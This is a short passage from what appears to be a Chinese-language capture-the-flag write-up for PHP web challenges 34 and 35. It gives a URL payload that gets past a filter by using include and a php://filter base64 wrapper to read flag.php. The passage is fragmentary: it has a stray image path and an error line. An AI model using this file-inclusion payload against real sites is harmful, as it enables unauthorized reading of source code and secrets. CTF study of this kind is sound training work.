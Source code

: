 依旧用上面的payload即可：?c=$b=include%0a$_GET[a]?>&a=php://filter/read=convert.base64-encode/resource=flag.php

![web34_flag](./image/web34_flag.png)

## Web35

题目：新增过滤 = <

![web35_timu](./image/web35_timu.png)


[ERROR]: could not find driver
